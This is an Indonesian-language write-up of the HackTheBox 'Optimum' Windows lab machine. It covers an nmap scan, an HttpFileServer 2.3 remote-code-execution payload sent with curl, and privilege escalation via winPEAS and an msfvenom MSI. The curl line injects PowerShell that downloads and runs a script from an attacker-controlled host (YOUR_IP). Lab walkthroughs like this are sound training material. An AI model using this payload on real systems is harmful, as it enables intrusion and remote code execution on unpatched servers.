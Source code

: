 # 🖥️ HackTheBox - Optimum (Windows)

## 🧩 Ringkasan
Target adalah mesin Windows dengan port 8080 terbuka yang menjalankan HttpFileServer v2.3. Ada celah RCE yang bisa dieksploitasi menggunakan `curl` atau `exploit-db`.

## 🔍 Langkah Eksploitasi

1. Nmap Scan
```bash
nmap -sC -sV -oN optimum-nmap.txt 10.10.10.8
```

Hasil
```arduino
PORT     STATE SERVICE
8080/tcp open  http    HttpFileServer httpd 2.3
```

2. RCE dengan Exploit HFS 2.3
Gunakan payload dari Exploit-DB (ID 49125)
```bash
curl http://10.10.10.8:8080/?search=%00{.exec|cmd.exe /c powershell -nop -c "IEX(New-Object Net.WebClient).DownloadString('http://YOUR_IP/shell.ps1')".}
```

3. Privilege Escalation

- Jalankan `winPEAS.bat`
- Ketemu `Service AlwaysInstallElevated`
- Exploit dengan `msfvenom msi`

```bash
msfvenom -p windows/exec CMD='whoami > C:\\Users\\Public\\pwned.txt' -f msi -o shell.msi
```


🏁 Flag

- User: `CTF{user_flag_here}`
- Root: `CTF{root_flag_here}`